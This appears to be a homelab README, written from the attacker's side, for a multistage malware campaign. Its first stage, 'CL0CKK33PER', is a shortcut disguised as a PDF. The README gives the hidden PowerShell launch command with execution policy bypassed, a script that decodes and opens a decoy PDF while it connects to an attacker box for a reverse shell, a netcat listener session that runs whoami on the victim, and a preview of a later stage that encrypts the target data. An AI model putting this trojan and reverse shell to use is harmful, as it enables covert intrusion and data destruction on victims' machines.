






# MALWARE BOILER
## 01.CL0CKK33PER

Our first step of the multistage malware campaighn. The CL0CKK33PER is a pdf trojan that is a part of teh Windtunel Tool suite. 
THe user upon entering the tools folder will see the 01.Instructions.pdf. Upon executing the shortcut that mascarades as a legitimate pdf file, a powershell script is envoked from the config file. Firstly to reduce any suspicion the script is actualy calling for a pdf reader also provided in teh config folder to open the pdf data that is stashed in the script as a base 64 string. The Pdf opens up normaly and the user can read the file content. However in the background our script is conecting to the attak box creating an entry point, for recognisence and persistence.

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File "C:\Users\Box 01\Desktop\Windtunel Tool\config\02.CL0CKK33PER.ps1"

### THE SETUP

## 01.THE TARGET DATA

<small>“01.Project-5527-folder.png”<small>

Here we have the folder we are after, lets see if we can get teh data unusable.

## 02.THE TROJAN PAYLOAD

<small>“02.Windtunel-folder.png”<small>

Here we can observe teh folder containing all of the malware for this compaighn mascarading as a legitimate piece of software, an instruction file and an image. 

## 03.WHATS UNDER THE HOOD

<small>“03.Config-folder.png”<small>

The config folder is essential to run our malicious code via the ps1 scripts and also we have 2 base64 encoded pieces of data used in the trojans. Also we provided a free PDF reader.

### THE SAMPLE
# 1. --< DEFINE PDF VARIABLES >--
$Base64PDF = "JVBERi0xLjcKJcOkw7zDtsOfCjIgMCB......(keeps going for a while)
$PDFPath = "$env:TEMP\Instructions.pdf"
$ReaderPath = "$env:USERPROFILE\Desktop\Windtunel Tool\config\PDFReader.exe"

# 2. --< DECODE THE PDF >--
$PDFBytes = [System.Convert]::FromBase64String($Base64PDF)
[System.IO.File]::WriteAllBytes($PDFPath, $PDFBytes)

# 3. --< OPEN VIA READER >--
Start-Process $ReaderPath -ArgumentList $PDFPath

# 4. --< BEGIN SHELL >--
$IP = "192.168.1.16" 
$Port = "4433"

$Socket = New-Object Net.Sockets.TcpClient
$Connect = $Socket.BeginConnect($IP, $Port, $null, $null)
$Wait = $Connect.AsyncWaitHandle.WaitOne(2000, $false)

--< CUTING CODE >--

## 04.THE PDF EXECUTION

<small>“04.Instructions.pdf.png”<small>

When the 01.Instructions.pdf icon is double clicked our powershell script 01 is evoked, it will decode the long base 64 string in to a pdf file and open it with the PDF reader, and in the background unknown to teh user a reverse shell is established.

### ON THE ATTACK BOX

square@square-Inspiron-5558:~$ nc -lvnp 4433
Listening on 0.0.0.0 4433
Connection received on 192.168.1.8 50196
REVERSE SHELL ACTIVE: PDF_OPENED
PS > 
whoami
box01-win10pro\lead_engineer
PS C:\Users\Box 01\Desktop\Windtunel Tool\config> 

## 05.WIRESHARK PDF TRAFFIC

<small>“05.Wireshark-pdf-traffic.png”<small>

The traffic is not encrypted we see the nonstandart source port and a connection with data being exchanged.

## 06.WIRESHARK PDF DETAILS

<small>“06.Wireshark-pdf-details.png”<small>

We can see in cleartext what is going on on teh wire. In this case a simple "whoami" command has been executed.

#### ‹‹‹FIRST STAGE SUCCESSFULL›››

Now lets go to the encryption part of our attack.
LINK to 02

  
  ⦿
  

[4.1]

